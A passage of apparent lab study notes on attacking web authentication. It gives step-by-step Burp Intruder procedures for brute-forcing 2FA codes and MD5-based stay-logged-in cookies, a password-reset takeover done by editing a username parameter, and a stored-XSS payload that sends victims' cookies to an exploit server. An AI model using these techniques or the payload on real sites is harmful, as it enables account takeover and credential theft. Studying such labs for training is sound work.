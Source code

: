 ```
> back to the website, submit an arbitrary 2FA code and send the POST request to burp intruder
> in intruder, change the verify parameter value to victim's username
> clear the payload position and add a new one surrounding the arbitrary 2FA code
> in the payloads tab, select the payload type as brute forcer
> change the payload options to necessary needs then run the attack
> wait until the attack is finish, submit the brute-forced 2FA code in the website with the verify parameter value set to victim's username
```

## Exploiting other authentications mechanisms
### Brute-forcing a stay-logged-in cookie
```
> assume a website has a stay logged in feature
> login into your own account with the stay logged in option checked then send the redirected page request to repeater which is the /my-account page
> in repeater, highlight the stay-logged-in cookie and study it with the Inspector panel
> the cookie is constructed as follows
    # base64(username+'md5HashOfPassword')
> to brute-force the md5 password hash, send the request to intruder
> in intruder, clear the payload position and add a new one surrounding the stay-logged-in cookie value
> in payload tab, add the password wordlists then under the payload processing, add the following rules in order
    # hash: MD5
    # add prefix: carlos:
    # encode: base64-encode
> what the payload processing does is it first generate a MD5 hash out of the wordlists provided, then add the MD5 hash after the prefix, and finally encoding them into base64 so the websites can run its validation properly
> in the options tab, under the Grep - Match, add a new expressions related to the /my-account page to differ wether the brute-forced is successful
> log out of your account before starting the attack and look for different status among the results
> take note of the response and use it to login to victim's account
```

### Stealing stay-logged-in cookie with XSS
```
> assume a website has a stay logged in feature and there is also a XSS vulnerability in the post commenting feature
> login into your own account and navigate to the post commenting feature
> submit a comment with XSS payload
    # <script>document.location='//exploit-server/'+document.cookie</script>
    # document.location forces every user to visit the given url
    # document.cookie will omit every user's cookies that visit the url
> on the exploit server, open the access log and observe there is a GET request from other users containing their stay-logged-in cookie
> copy the cookie and base64-decode it,then copy the MD5 hash to decrypt
> use the decrypted hash to login into victim's account
```
### Password reset exploitation due to weak implementation
```
> assume a website has a password reset functionality
> in the /login page, click on forgot password and enter your own username
> you should get an email for the password reset url
> navigate to the password reset page and submit a new password
> send the POST request to burp proxy and observe there is a username parameter that determines which use is resetting the password
> change the username to victim's username and forward the request
> go back to the application and login with the victim's username and the new password created by you
```